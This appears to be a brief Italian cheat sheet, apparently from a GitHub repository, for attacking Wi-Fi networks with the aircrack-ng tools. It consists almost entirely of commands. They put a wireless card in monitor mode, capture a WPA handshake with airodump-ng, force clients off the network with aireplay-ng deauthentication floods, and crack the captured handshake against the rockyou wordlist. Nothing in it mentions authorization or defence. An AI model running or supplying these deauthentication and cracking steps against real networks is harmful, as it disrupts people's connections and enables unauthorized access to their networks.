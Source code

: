 # Wi-Fi
Visualizza scheda di rete 
```
ifconfig
```
oppure
```
ip a
```
avvia scheda di rete in monitor mode
```
sudo airmon-ng start wlan0
```
esempio:
erpressa@kali:~# sudo airmon-ng start wlan0
avvia airodump-ng 
```
sudo airodump-ng wlan0mon 
```
copiare bssid e station
premi spazio oppure ctrl + c per terminare 
```

sudo airodump-ng --bssid FF:FF:FF:FF:FF:FF -c 1 -w /home/kali/handshake.cap wlan0mon
```
esempio
```
sudo airodump-ng --<BSSID> -c <CANALE> -w <PERCORSO-FILE> <INTERFACCIA> 
```

scollegare clients a=bssid c=clients
```
sudo aireplay-ng -0 10 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon

```
oppure 
```
sudo aireplay-ng --deauth 1000 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
cracking con aircrack-ng 
```
sudo aircrack-ng file.cap -w /home/kali/rockyou.txt
```
